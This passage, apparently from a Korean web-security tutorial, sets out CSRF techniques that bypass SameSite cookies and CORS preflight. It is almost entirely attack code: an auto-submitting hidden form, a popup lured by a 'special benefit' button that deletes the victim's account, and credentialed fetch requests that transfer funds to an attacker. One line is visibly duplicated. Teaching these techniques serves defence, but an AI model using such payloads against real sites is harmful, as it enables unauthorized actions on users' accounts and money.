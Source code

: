 ### 3.2. SameSite 쿠키 우회

#### 3.2.1. 서브도메인을 이용한 우회
```html
<!-- target.com의 서브도메인에서 공격 -->
<!-- 만약 SameSite=Lax인 경우 -->
<form action="http://target.com/sensitive_action" method="GET">
    <input type="hidden" name="action" value="malicious">
</form>
<script>
    // GET 요청은 SameSite=Lax에서도 허용됨
    document.forms[0].submit();
</script>
```

#### 3.2.2. 팝업 윈도우를 이용한 우회
```javascript
// SameSite=None 쿠키가 있는 경우
function openAttackWindow() {
    var attackWindow = window.open('http://target.com/login', 'attack', 'width=1,height=1');
    
    setTimeout(function() {
        // 로그인 후 공격 실행
        attackWindow.location.href = 'http://target.com/delete_account?confirm=yes';
    }, 3000);
}

// 사용자 클릭 유도
document.body.innerHTML = '<button onclick="openAttackWindow()">특별 혜택 받기!</button>';
```

### 3.3. Content-Type 우회

#### 3.3.1. Simple Request 악용
```javascript
// CORS preflight 없는 요청 타입 사용
fetch('http://target.com/api/transfer', {
    method: 'POST',
    headers: {
        'Content-Type': 'text/plain'  // Simple request
    },
    body: 'to_account=attacker&amount=10000',
    credentials: 'include'
});

// application/x-www-form-urlencoded 사용
fetch('http://target.com/api/action', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({

body: new URLSearchParams({
        'action': 'delete',
        'user_id': '123'
    }),
    credentials: 'include'
});
```
